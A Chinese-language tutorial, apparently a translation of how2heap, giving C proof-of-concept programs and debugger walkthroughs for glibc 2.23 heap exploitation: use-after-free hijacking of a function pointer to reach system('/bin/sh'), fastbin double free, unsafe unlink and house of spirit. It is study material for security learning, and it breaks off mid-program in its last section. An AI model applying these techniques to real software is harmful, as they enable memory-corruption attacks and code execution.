



How2heap zh
how2heap_zh
📌涉及 glibc 版本问题，每个例子都会给出测试环境 如果哪里不对还请师傅们批评指正🤝
first_fit
glibc版本：最新 源码：
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main()
{
fprintf(stderr, "尽管这个例子没有演示攻击效果，但是它演示了 glibc 的分配机制\n");
fprintf(stderr, "glibc 使用首次适应算法选择空闲的堆块\n");
fprintf(stderr, "如果有一个空闲堆块且足够大，那么 malloc 将选择它\n");
fprintf(stderr, "如果存在 use-after-free 的情况那可以利用这一特性\n");
fprintf(stderr, "首先申请两个比较大的 chunk\n");
char* a = malloc(0x512);
char* b = malloc(0x256);
char* c;
fprintf(stderr, "第一个 a = malloc(0x512) 在: %p\n", a);
fprintf(stderr, "第二个 a = malloc(0x256) 在: %p\n", b);
fprintf(stderr, "我们可以继续分配\n");
fprintf(stderr, "现在我们把 \"AAAAAAAA\" 这个字符串写到 a 那里 \n");
strcpy(a, "AAAAAAAA");
fprintf(stderr, "第一次申请的 %p 指向 %s\n", a, a);
fprintf(stderr, "接下来 free 掉第一个...\n");
free(a);
fprintf(stderr, "接下来只要我们申请一块小于 0x512 的 chunk，那就会分配到原本 a 那里: %p\n", a);
c = malloc(0x500);
fprintf(stderr, "第三次 c = malloc(0x500) 在: %p\n", c);
fprintf(stderr, "我们这次往里写一串 \"CCCCCCCC\" 到刚申请的 c 中\n");
strcpy(c, "CCCCCCCC");
fprintf(stderr, "第三次申请的 c %p 指向 %s\n", c, c);
fprintf(stderr, "第一次申请的 a %p 指向 %s\n", a, a);
fprintf(stderr, "可以看到，虽然我们刚刚看的是 a 的，但它的内容却是 \"CCCCCCCC\"\n");
}
编译一下：gcc -g first_fit.c
运行一下看看
程序展示了一个 glibc 堆分配策略，first-fit。在分配内存时，malloc 会到 unsorted bin 中查找适合的被 free 的 chunk，如果没有，就会把 unsorted bin 中的所有 chunk 分别放入到所属的 bins 中，然后再去这些 bins 里去寻找适合的 chunk。可以看到第三次 malloc 的地址和第一次相同，即 malloc 找到了第一次 free 掉的 chunk，并把它重新分配
下断点，对着源码调试着理解一下
先是 malloc 了两次，然后给第一个 a 赋了 "AAAAAAAA"
然后 free 了 a，这时候 a 被放到了 unsorted bin 中
然后再去申请一个小于 free chunk 的大小的内存空间根据 first fit 就会分配到这里 可以发现，当释放了一块内存之后再去申请一个大小略小的空间，那么 glibc 倾向于将先前释放的空间重新分配
加上参数重新编译一个版本：gcc -fsanitize=address -g first_fit.c
会提示有个 use-after-free 漏洞
UAF 漏洞简单来说就是第一次申请的内存释放之后，没有进行内存回收，下次申请的时候还能申请到这一块内存，导致我们可以用以前的内存指针来访问修改过的内存
来看一下一个简单的 UAF 的利用的例子
#include <stdio.h>
#include <stdlib.h>
typedef void (*func_ptr)(char *);
void evil_fuc(char command[])
{
system(command);
}
void echo(char content[])
{
printf("%s",content);
}
int main()
{
func_ptr *p1=(func_ptr*)malloc(0x20);
printf("申请了4个int大小的内存");
printf("p1 的地址: %p\n",p1);
p1[1]=echo;
printf("把p1[1]赋值为echo函数，然后打印出\"hello world\"");
p1[1]("hello world\n");
printf("free 掉 p1");
free(p1);
printf("因为并没有置为null，所以p1[1]仍然是echo函数，仍然可以输出打印了\"hello again\"");
p1[1]("hello again\n");
printf("接下来再去malloc一个p2，会把释放掉的p1给分配出来，可以看到他俩是同一地址的");
func_ptr *p2=(func_ptr*)malloc(0x20);
printf("p2 的地址: %p\n",p2);
printf("p1 的地址: %p\n",p1);
printf("然后把p2[1]给改成evil_fuc也就是system函数");
p2[1]=evil_fuc;
printf("传参调用");
p1[1]("/bin/sh");
return 0;
}
看一下，首先申请了一个 chunk，把那个 p1[1] 改成了 echo 函数的地址
free 掉之后再申请一个大小相同的 p2，这时候会把之前 p1 的内存区域分配给 p2，也就是说可以用 p2 来控制 p1 的内容了
fastbin_dup
ubuntu16.04 glibc 2.23 fastbin 主要是用来放一些小的内存的，来提高效率 源码
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main()
{
fprintf(stderr, "这个例子演示了 fastbin 的 double free\n");
fprintf(stderr, "首先申请了 3 个 chunk\n");
char* a = malloc(8);
strcpy(a, "AAAAAAAA");
char* b = malloc(8);
strcpy(b, "BBBBBBBB");
char* c = malloc(8);
strcpy(c, "CCCCCCCC");
fprintf(stderr, "第一个 malloc(8): %p\n", a);
fprintf(stderr, "第二个 malloc(8): %p\n", b);
fprintf(stderr, "第三个 malloc(8): %p\n", c);
fprintf(stderr, "free 掉第一个\n");
free(a);
fprintf(stderr, "当我们再次 free %p 的时候, 程序将会崩溃因为 %p 在 free 链表的第一个位置上\n", a, a);
// free(a);
fprintf(stderr, "我们先 free %p.\n", b);
free(b);
fprintf(stderr, "现在我们就可以再次 free %p 了, 因为他现在不在 free 链表的第一个位置上\n", a);
free(a);
fprintf(stderr, "现在空闲链表是这样的 [ %p, %p, %p ]. 如果我们 malloc 三次, 我们会得到两次 %p \n", a, b, a, a);
char* d = malloc(8);
char* e = malloc(8);
char* f = malloc(8);
strcpy(d, "DDDDDDDD");
strcpy(e, "EEEEEEEE");
strcpy(f, "FFFFFFFF");
fprintf(stderr, "第一次 malloc(8): %p\n", d);
fprintf(stderr, "第二次 malloc(8): %p\n", e);
fprintf(stderr, "第三次 malloc(8): %p\n", f);
}
gcc -g fastbin_dup.c
程序展示了 fastbins 的 double-free 攻击，可以泄露出一块已经被分配的内存指针。fastbins 可以看成一个后进先出的栈，使用单链表来实现，通过 fastbin->fd 来遍历。由于 free 的过程会对 free list 做检查，我们不能连续两次 free 同一个 chunk，所以这里在两次 free 之间，增加了一次对其他 chunk 的 free 过程，从而绕过了检查顺利执行，然后再 malloc 三次，就在同一个地址 malloc 了两次，也就有了两个指向同一块内存区域的指针
（之前 gef 调的因为地址一样就没换图片）
首先 malloc 3 个 chunk
第一个 free 之后，chunk a 被添加到 fastbins 中
第二个 free 之后，chunk b 被添加到 fastbins 中，可以看到在 b 的 fd 指针那里已经改成了 chunk a 的地址了
此时，由于 chunk a 处于 bin 中第 2 块的位置，不会被 double-free 的检查机制检查出来，所以第三个 free 之后，chunk a 再次被添加到 fastbins 中：
chunk a 和 chunk b 形成了一个环

再 malloc 两个的情况（上面那种情况先 q 再 c）
后来又 malloc 了一个可以看到 0x4444444444444444 被改成了 0x4646464646464646 是因为后来申请的 f 跟 d 指向同一块内存区域

所以，对于 fastbins，可以通过 double-free 泄露一个堆块指针，可以用 -fsanitize=address 参数重新编译看看 在 libc-2.26 中，即使两次 free，也没有触发 double-free 的异常检测，这是因为 tcache 的机制有关，等后面介绍
fastbin_dup_into_stack
ubuntu16.04 glibc 2.23 源码
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main()
{
fprintf(stderr, "这个例子拓展自 fastbin_dup.c，通过欺骗 malloc 使得返回一个指向受控位置的指针（本例为栈上）\n");
unsigned long long stack_var;
fprintf(stderr, "我们想通过 malloc 申请到 %p.\n", 8+(char *)&stack_var);
fprintf(stderr, "先申请3 个 chunk\n");
char* a = malloc(8);
strcpy(a, "AAAAAAAA");
char* b = malloc(8);
strcpy(b, "BBBBBBBB");
char* c = malloc(8);
strcpy(c, "CCCCCCCC");
fprintf(stderr, "chunk a: %p\n", a);
fprintf(stderr, "chunk b: %p\n", b);
fprintf(stderr, "chunk c: %p\n", c);
fprintf(stderr, "free 掉 chunk a\n");
free(a);
fprintf(stderr, "如果还对 %p 进行 free, 程序会崩溃。因为 %p 现在是 fastbin 的第一个\n", a, a);
// free(a);
fprintf(stderr, "先对 b %p 进行 free\n", b);
free(b);
fprintf(stderr, "接下来就可以对 %p 再次进行 free 了, 现在已经不是它在 fastbin 的第一个了\n", a);
free(a);
fprintf(stderr, "现在 fastbin 的链表是 [ %p, %p, %p ] 接下来通过修改 %p 上的内容来进行攻击.\n", a, b, a, a);
unsigned long long *d = malloc(8);
fprintf(stderr, "第一次 malloc(8): %p\n", d);
char* e = malloc(8);
strcpy(e, "EEEEEEEE");
fprintf(stderr, "第二次 malloc(8): %p\n", e);
fprintf(stderr, "现在 fastbin 表中只剩 [ %p ] 了\n", a);
fprintf(stderr, "接下来往 %p 栈上写一个假的 size，这样 malloc 会误以为那里有一个空闲的 chunk，从而申请到栈上去\n", a);
stack_var = 0x20;
fprintf(stderr, "现在覆盖 %p 前面的 8 字节，修改 fd 指针指向 stack_var 前面 0x20 的位置\n", a);
*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));
char* f = malloc(8);
strcpy(f, "FFFFFFFF");
fprintf(stderr, "第三次 malloc(8): %p, 把栈地址放到 fastbin 链表中\n", f);
char* g = malloc(8);
strcpy(g, "GGGGGGGG");
fprintf(stderr, "这一次 malloc(8) 就申请到了栈上去: %p\n", g);
}
gcc -g fastbin_dup_into_stack.c
这个程序展示了怎样通过修改指针，将其指向一个伪造的 free chunk，在伪造的地址处 malloc 出一个 chunk。该程序大部分内容都和上一个程序一样，漏洞也同样是 double-free，只有给 fd 填充的内容不一样
三次 malloc 之后
三次 free 之后，可以看到由于 double free 造成的循环的指针
这时候我们再去 malloc 两次，还剩一个指向 chunk a 的 free chunk，而前面我们也申请到了指向它的 chunk d，可以通过它编辑 chunk a 的 fd 指针，填充一个有意义的地址：栈地址减 0x8（因为伪造的 chunk 要有个 size，size 在 &stack_var - 0x8 的位置上）
*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));
这样 malloc 一次之后再次申请的时候会申请到 fd 指针指向的 0x00007fffffffdcb0
fastbin_dup_consolidate
ubuntu16.04 glibc 2.23
gcc -g fastbin_dup_consolidate.c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
int main() {
void* p1 = malloc(0x40);
strcpy(p1, "AAAAAAAA");
void* p2 = malloc(0x40);
strcpy(p2, "BBBBBBBB");
fprintf(stderr, "申请两个 fastbin 范围内的 chunk: p1=%p p2=%p\n", p1, p2);
fprintf(stderr, "先 free p1\n");
free(p1);
void* p3 = malloc(0x400);
fprintf(stderr, "去申请 largebin 大小的 chunk，触发 malloc_consolidate(): p3=%p\n", p3);
fprintf(stderr, "因为 malloc_consolidate(), p1 会被放到 unsorted bin 中\n");
free(p1);
fprintf(stderr, "这时候 p1 不在 fastbin 链表的头部了，所以可以再次 free p1 造成 double free\n");
void* p4 = malloc(0x40);
strcpy(p4, "CCCCCCC");
void* p5 = malloc(0x40);
strcpy(p5, "DDDDDDDD");
fprintf(stderr, "现在 fastbin 和 unsortedbin 中都放着 p1 的指针，所以我们可以 malloc 两次都到 p1: %p %p\n", p4, p5);
}
这个例子展示了在 large bin 的分配中 malloc_consolidate 机制绕过 fastbin 对 double free 的检查
一开始分配了两次之后：
释放掉 p1 之后，放到了 fastbins 中
此时分配了一个 large chunk 即：void *p3 = malloc(0x400); fastbins 中的 chunk 已经没有了，在 small bins 出现了，同时 chunk 2 的 size 和 prev_size 都被修改了
在分配 large chunk 的时候，首先会根据 chunk 的大小来获取对应的 large bin 的 index，然后判断 fast bins 中有没有 chunk，如果有就调用 malloc_consolidate() 合并 fast bins 中的 chunk，然后放到 unsorted bin 中。unsorted bin 中的 chunk 会按照大小放到 small 或 large bins 中
p1 已经不再 fastbin 的顶部，所以可以再次 free p1 既在 small bins 又在 fast bins
再一次 malloc 之后会从 fast bins 中分配 void *p4 = malloc(0x10); strcpy(p4, "CCCCCCC");
再一次就是从 small bins 中分配 void *p5 = malloc(0x10); strcpy(p5, "DDDDDDDD");

p4 和 p5 被分配在了同一个地方
unsafe_unlink
ubuntu16.04 glibc 2.23 这个程序展示了怎样利用 free 改写全局指针 chunk0_ptr 达到任意内存写的目的，即 unsafe unlink
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
uint64_t *chunk0_ptr;
int main()
{
fprintf(stderr, "当您在已知位置有指向某个区域的指针时，可以调用 unlink\n");
fprintf(stderr, "最常见的情况是易受攻击的缓冲区，可能会溢出并具有全局指针\n");
int malloc_size = 0x80; //要足够大来避免进入 fastbin
int header_size = 2;
fprintf(stderr, "本练习的重点是使用 free 破坏全局 chunk0_ptr 来实现任意内存写入\n\n");
chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
uint64_t *chunk1_ptr = (uint64_t*) malloc(malloc_size); //chunk1
fprintf(stderr, "全局变量 chunk0_ptr 在 %p, 指向 %p\n", &chunk0_ptr, chunk0_ptr);
fprintf(stderr, "我们想要破坏的 chunk 在 %p\n", chunk1_ptr);
fprintf(stderr, "在 chunk0 那里伪造一个 chunk\n");
fprintf(stderr, "我们设置 fake chunk 的 'next_free_chunk' (也就是 fd) 指向 &chunk0_ptr 使得 P->fd->bk = P.\n");
chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
fprintf(stderr, "我们设置 fake chunk 的 'previous_free_chunk' (也就是 bk) 指向 &chunk0_ptr 使得 P->bk->fd = P.\n");
fprintf(stderr, "通过上面的设置可以绕过检查: (P->fd->bk != P || P->bk->fd != P) == False\n");
chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
fprintf(stderr, "Fake chunk 的 fd: %p\n",(void*) chunk0_ptr[2]);
fprintf(stderr, "Fake chunk 的 bk: %p\n\n",(void*) chunk0_ptr[3]);
fprintf(stderr, "现在假设 chunk0 中存在一个溢出漏洞，可以更改 chunk1 的数据\n");
uint64_t *chunk1_hdr = chunk1_ptr - header_size;
fprintf(stderr, "通过修改 chunk1 中 prev_size 的大小使得 chunk1 在 free 的时候误以为 前面的 free chunk 是从我们伪造的 free chunk 开始的\n");
chunk1_hdr[0] = malloc_size;
fprintf(stderr, "如果正常的 free chunk0 的话 chunk1 的 prev_size 应该是 0x90 但现在被改成了 %p\n",(void*)chunk1_hdr[0]);
fprintf(stderr, "接下来通过把 chunk1 的 prev_inuse 改成 0 来把伪造的堆块标记为空闲的堆块\n\n");
chunk1_hdr[1] &= ~1;
fprintf(stderr, "现在释放掉 chunk1，会触发 unlink，合并两个 free chunk\n");
free(chunk1_ptr);
fprintf(stderr, "此时，我们可以用 chunk0_ptr 覆盖自身以指向任意位置\n");
char victim_string[8];
strcpy(victim_string,"Hello!~");
chunk0_ptr[3] = (uint64_t) victim_string;
fprintf(stderr, "chunk0_ptr 现在指向我们想要的位置，我们用它来覆盖我们的 victim string。\n");
fprintf(stderr, "之前的值是: %s\n",victim_string);
chunk0_ptr[0] = 0x4141414142424242LL;
fprintf(stderr, "新的值是: %s\n",victim_string);
}
ulink 有一个保护检查机制，他会检查这个 chunk 的前一个 chunk 的 bk 指针是不是指向这个 chunk（后一个也一样） 先在 main 函数上设置一个断点，然后单步走一下，走到第 13 行（不包括）
我们来看一下，申请了两个堆之后的情况

上面说的那个检查 fd/bk 指针是通过 chunk 头部的相对地址来找的，我们可以用全局指针 chunk0_ptr 构造一个假的 chunk 来绕过
再单步走到第 40 行（这里是后来补的图，地址大了 0x1000）
在伪造 fd 跟 bk 这个地方，这两行代码做了个减法，使得从这个地方数起来正好可以数到我们伪造的哪一个 fake chunk chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)3); chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)2);
上面那个图没对齐，用文本来解释一下
gdb-peda$ x/4gx 0x0000000000601058
0x601058: 0x0000000000000000 0x00007ffff7dd2540
0x601068: 0x0000000000000000 0x0000000000602010
0x601058是我们伪造的那个堆块的fd指针,在这里可以看到它的bk指针指向的是0x602010
gdb-peda$ x/4gx 0x0000000000601060
0x601060: 0x00007ffff7dd2540 0x0000000000000000
0x601070: 0x0000000000602010 0x0000000000000000
0x601060是我们伪造的那个堆块的bk指针,在这里可以看到它的fd指针指向的是0x602010
我们的 fake chunk 的 fd 指向 0x601058 然后 0x601058 的 bk 指向 0x601070 fake chunk 的 bk 指向 0x601060 然后 0x601060 的 fd 指向 0x601070，可以保证前后都指向我们伪造的这个 chunk，完美！
另外我们利用 chunk0 的溢出来修改 chunk1 的 prev_size 为 fake chunk 的大小，修改 PREV_INUSE 标志位为 0，将 fake chunk 伪造成一个 free chunk。
接下来释放掉 chunk1 因为 fake chunk 和 chunk1 是相邻的一个 free chunk，所以会将他两个合并，这就需要对 fake chunk 进行 unlink，进行如下操作
FD = P->fd BK = P->bk FD->bk = BK BK->fd = FD
通过前面的赋值操作
P->fd = &P - 3 * size(int) P->bk = &P - 2 * size(int)
也就是说：FD = &P - 3 * size(int)，BK = &P - 2 * size(int) FD->bk 按照偏移寻址，就是 FD+3*size(int) 也就等于 &P，FD->bk = P，同理 BK->fd = P 这样执行下来，最终实现的效果是 P = &P - 3 * size(int) 也就是说，chunk0_ptr 和 chunk0_ptr[3] 现在指向的是同一个地址
在这个图示中最终实现的效果是 ptr 中存的是 ptr-0x18，如果本来 ptr 是存的一个指针的，现在它指向了 ptr-0x18 那，如果编辑这里的内容就可以往 0x18 那里去写，实现了覆盖这个指针为任意值的效果
house_of_spirit
ubuntu16.04 glibc 2.23
#include <stdio.h>
#include <stdlib.h>
int main()
{
fprintf(stderr, "这个例子演示了 house of spirit 攻击\n");
fprintf(stderr, "我们将构造一个 fake chunk 然后释放掉它，这样再次申请的时候就会申请到它\n");
malloc(1);
fprintf(stderr, "覆盖一个指向 fastbin 的指针\n");
unsigned long long *a, *b;
unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));
fprintf(stderr, "这块区域 (长度为: %lu) 包含两个 chunk. 第一个在 %p 第二个在 %p.\n", sizeof(fake_chunks), &fake_chunks[1], &fake_chunks[9]);
fprintf(stderr, "构造 fake chunk 的 size，要比 chunk 大 0x10（因为 chunk 头），同时还要保证属于 fastbin，对于 fastbin 来说 prev_inuse 不会改变，但是其他两个位需要注意都要位 0\n");
fake_chunks[1] = 0x40; // size
fprintf(stderr, "next chunk 的大小也要注意，要大于 0x10 小于 av->system_mem（128kb）\n");
// 这是fake_chunks[?]可以数一下
fake_chunks[9] = 0x1234; // nextsize
fake_chunks[2] = 0x4141414141414141LL;
fake_chunks[10] = 0x4141414141414141LL;
fprintf(stderr, "现在，我们拿伪造的那个 fake chunk 的地址进行 free, %p.\n", &fake_chunks[2]);
a = &fake_chunks[2];
fprintf(stderr, "free!\n");
free(a);
fprintf(stderr, "现在 malloc 的时候将会把 %p 给返回回来\n", &fake_chunks[2]);
b = malloc(0x30);
fprintf(stderr, "malloc(0x30): %p\n", b);
b[0] = 0x4242424242424242LL;
fprintf(stderr, "ok!\n");
return 0;
}
通过构造 fake chunk，然后把它给释放掉，这样再次申请相同大小的 chunk 的时候就会匹配到这里 house-of-spirit 是一种通过堆的 fast bin 机制来辅助栈溢出的方法 如果栈溢出的时候溢出的长度不能覆盖掉返回地址的但是却可以覆盖栈上面一个即将 free 的指针的话，我们可以把这个指针覆盖为栈上的某一个地址，并且把这个地址上伪造一个 chunk，free 之后再次 malloc 就可以申请到栈上面伪造的那一块，这时候就有可能改写返回地址了
通过上面那个程序直观的看一下
gcc -g house_of_spirit.c
首先在程序的第 14 行下个断点 b 14
运行到这里可以看到 fake_chunk 目前还没有被我们写入
我们直接让他写完，再来看一下，已经构造出 fake chunk 了
对 fake_chunk 进行 free 之后
可以看一下 fastbin 现在已经是有了我们构造的那个 fake_chunk 了
接下来再次 malloc 一个相同大小的 chunk 就会把这里申请过去
b = malloc(0x30);
b[0] = 0x4242424242424242LL;
构造 chunk 的时候要注意绕过一些检查： 后面那三个特殊的标志位前两个必须都为 0，写 size 位的时候直接 0xN0就可以了，然后大小要注意符合 fastbin 的大小，next chunk 的大小也要注意，必须大于 2*SIZE_SZ，小于 av->system_mem 64位下：16< next chunk 的 size < 128kb
poison_null_byte
ubuntu16.04 glibc 2.23
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>
int main()
{
fprintf(stderr, "当存在 off by null 的时候可以使用该技术\n");
uint8_t* a;
uint8_t* b;
uint8_t* c;
uint8_t* b1;
uint8_t* b2;
uint8_t* d;
void *barrier;
fprintf(stderr, "申请 0x100 的 chunk a\n");
a = (uint8_t*) malloc(0x100);
fprintf(stderr, "a 在: %p\n", a);
int real_a_size = malloc_usable_size(a);
fprintf(stderr, "因为我们想要溢出 chunk a，所以需要知道他的实际大小: %#x\n", real_a_size);
b = (uint8_t*) malloc(0x200);
fprintf(stderr, "b: %p\n", b);
c = (uint8_t*) malloc(0x100);
fprintf(stderr, "c: %p\n", c);
barrier = malloc(0x100);
fprintf(stderr, "另外再申请了一个 chunk c：%p，防止 free 的时候与 top chunk 发生合并的情况\n", barrier);
uint64_t* b_size_ptr = (uint64_t*)(b - 8);
fprintf(stderr, "会检查 chunk size 与 next chunk 的 prev_size 是否相等，所以要在后面一个 0x200 来绕过检查\n");
*(size_t*)(b+0x1f0) = 0x200;
free(b);
fprintf(stderr, "b 的 size: %#lx\n", *b_size_ptr);
fprintf(stderr, "假设我们写 chunk a 的时候多写了一个 0x00 在 b 的 size 的 p 位上\n");
a[real_a_size] = 0; // <--- THIS IS THE "EXPLOITED BUG"
fprintf(stderr, "b 现在的 size: %#lx\n", *b_size_ptr);
uint64_t* c_prev_size_ptr = ((uint64_t*)c)-2;
fprintf(stderr, "c 的 prev_size 是 %#lx\n",*c_prev_size_ptr);
fprintf(stderr, "但他根据 chunk b 的 size 找的时候会找到 b+0x1f0 那里，我们将会成功绕过 chunk 的检测 chunksize(P) == %#lx == %#lx == prev_size (next_chunk(P))\n",*((size_t*)(b-0x8)), *(size_t*)(b-0x10 + *((size_t*)(b-0x8))));
b1 = malloc(0x100);
fprintf(stderr, "申请一个 0x100 大小的 b1: %p\n",b1);
fprintf(stderr, "现在我们 malloc 了 b1 他将会放在 b 的位置，这时候 c 的 prev_size 依然是: %#lx\n",*c_prev_size_ptr);
fprintf(stderr, "但是我们之前写 0x200 那个地方已经改成了: %lx\n",*(((uint64_t*)c)-4));
fprintf(stderr, "接下来 malloc 'b2', 作为 'victim' chunk.\n");
b2 = malloc(0x80);
fprintf(stderr, "b2 申请在: %p\n",b2);
memset(b2,'B',0x80);
fprintf(stderr, "现在 b2 填充的内容是:\n%s\n",b2);
fprintf(stderr, "现在对 b1 和 c 进行 free 因为 c 的 prev_size 是 0x210，所以会把他俩给合并，但是这时候里面还包含 b2 呐.\n");
free(b1);
free(c);
fprintf(stderr, "这时候我们申请一个 0x300 大小的 chunk 就可以覆盖着 b2 了\n");
d = malloc(0x300);
fprintf(stderr, "d 申请到了: %p，我们填充一下 d 为 \"D\"\n",d);
memset(d,'D',0x300);
fprintf(stderr, "现在 b2 的内容就是:\n%s\n",b2);
}
首先申请了 4 个 chunk，分别是 a、b、c 和一个防止与 top chunk 合并的 chunk
接下来为了绕过 size 跟 next chunk 的 prev_size 的检查，我们在 chunk b 的末尾伪造一个 0x200 大小的 prev_size
然后把 b 给 free 掉，通过编辑 chunk a 来更改 b 的 size 最后一位为 0x00
这时候 c 那里的 prev_size 还是之前的，因为更改了 b 的 size，所以找的时候会找 b+0x200 的，而真正的在 0x210，也正是这样让我们绕过了 chunksize(P) = prev_size (next_chunk(P)) 的检测
接下来申请一个 0x100 大小的 chunk，因为 b 已经 free 了，所以会把新申请的这个安排到 b 那里（我们把新申请的叫 b1）之前 b 那一块被分割出来了，剩下了 0xf
接下来再去申请一块小于 0xf 的，这样就会继续分割 b 剩下的那一块（我们把这次申请的填充上 'B' 来区分）

接下来 free 掉 b1 跟 c，因为 c 的 prev_size 仍然是 0x210，按照这个去找的话就可以找到原本的 b，现在的 b1 的位置，那么他们俩会合并，但是中间还有个 b2 呐！！这里 how2heap 有一个注释
Typically b2 (the victim) will be a structure with valuable pointers that we want to control 通常b2（受害者）将是一个结构，其中包含我们要控制的有价值的指针
那么接下来的事情就是申请一块大的 chunk，然后去随便改写 b2 的内容了
house_of_lore
ubuntu16.04 glibc 2.23 House of Lore
overlapping_chunks
ubuntu16.04 glibc 2.23
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
int main(int argc , char* argv[]){
intptr_t *p1,*p2,*p3,*p4;
fprintf(stderr, "这是一个简单的堆块重叠问题，首先申请 3 个 chunk\n");
p1 = malloc(0x100 - 8);
p2 = malloc(0x100 - 8);
p3 = malloc(0x80 - 8);
fprintf(stderr, "这三个 chunk 分别申请到了:\np1：%p\np2：%p\np3：%p\n给他们分别填充\"1\"\"2\"\"3\"\n\n", p1, p2, p3);
memset(p1, '1', 0x100 - 8);
memset(p2, '2', 0x100 - 8);
memset(p3, '3', 0x80 - 8);
fprintf(stderr, "free 掉 p2\n");
free(p2);
fprintf(stderr, "p2 被放到 unsorted bin 中\n");
fprintf(stderr, "现在假设有一个堆溢出漏洞，可以覆盖 p2\n");
fprintf(stderr, "为了保证堆块稳定性，我们至少需要让 prev_inuse 为 1，确保 p1 不会被认为是空闲的堆块\n");
int evil_chunk_size = 0x181;
int evil_region_size = 0x180 - 8;
fprintf(stderr, "我们将 p2 的大小设置为 %d, 这样的话我们就能用 %d 大小的空间\n",evil_chunk_size, evil_region_size);
*(p2-1) = evil_chunk_size; // 覆盖 p2 的 size
fprintf(stderr, "\n现在让我们分配另一个块，其大小等于块p2注入大小的数据大小\n");
fprintf(stderr, "malloc 将会把前面 free 的 p2 分配给我们（p2 的 size 已经被改掉了）\n");
p4 = malloc(evil_region_size);
fprintf(stderr, "\np4 分配在 %p 到 %p 这一区域\n", (char *)p4, (char *)p4+evil_region_size);
fprintf(stderr, "p3 从 %p 到 %p\n", (char *)p3, (char *)p3+0x80-8);
fprintf(stderr, "p4 应该与 p3 重叠，在这种情况下 p4 包括所有 p3\n");
fprintf(stderr, "这时候通过编辑 p4 就可以修改 p3 的内容，修改 p3 也可以修改 p4 的内容\n\n");
fprintf(stderr, "接下来验证一下，现在 p3 与 p4:\n");
fprintf(stderr, "p4 = %s\n", (char *)p4+0x10);
fprintf(stderr, "p3 = %s\n", (char *)p3+0x10);
fprintf(stderr, "\n如果我们使用 memset(p4, '4', %d), 将会:\n", evil_region_size);
memset(p4, '4', evil_region_size);
fprintf(stderr, "p4 = %s\n", (char *)p4+0x10);
fprintf(stderr, "p3 = %s\n", (char *)p3+0x10);
fprintf(stderr, "\n那么之后再 memset(p3, '3', 80), 将会:\n");
memset(p3, '3', 80);
fprintf(stderr, "p4 = %s\n", (char *)p4+0x10);
fprintf(stderr, "p3 = %s\n", (char *)p3+0x10);
}
一开始申请 3 个 chunk
free 掉 p2，这时候 p2 被放到了 unsorted bin 中
然后把 p2 的 size 改成 0x180，这时候就把 p3 给包含进去了
然后再去申请一块 0x180 大小的 p4，就能够编辑 p4 就可以修改 p3 的内容，编辑 p3 也可以修改 p4 的内容
overlapping_chunks_2
ubuntu16.04 glibc 2.23
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>
int main(){
intptr_t *p1,*p2,*p3,*p4,*p5,*p6;
unsigned int real_size_p1,real_size_p2,real_size_p3,real_size_p4,real_size_p5,real_size_p6;
int prev_in_use = 0x1;
fprintf(stderr, "\n一开始分配 5 个 chunk");
p1 = malloc(1000);
p2 = malloc(1000);
p3 = malloc(1000);
p4 = malloc(1000);
p5 = malloc(1000);
real_size_p1 = malloc_usable_size(p1);
real_size_p2 = malloc_usable_size(p2);
real_size_p3 = malloc_usable_size(p3);
real_size_p4 = malloc_usable_size(p4);
real_size_p5 = malloc_usable_size(p5);
fprintf(stderr, "\nchunk p1 从 %p 到 %p", p1, (unsigned char *)p1+malloc_usable_size(p1));
fprintf(stderr, "\nchunk p2 从 %p 到 %p", p2, (unsigned char *)p2+malloc_usable_size(p2));
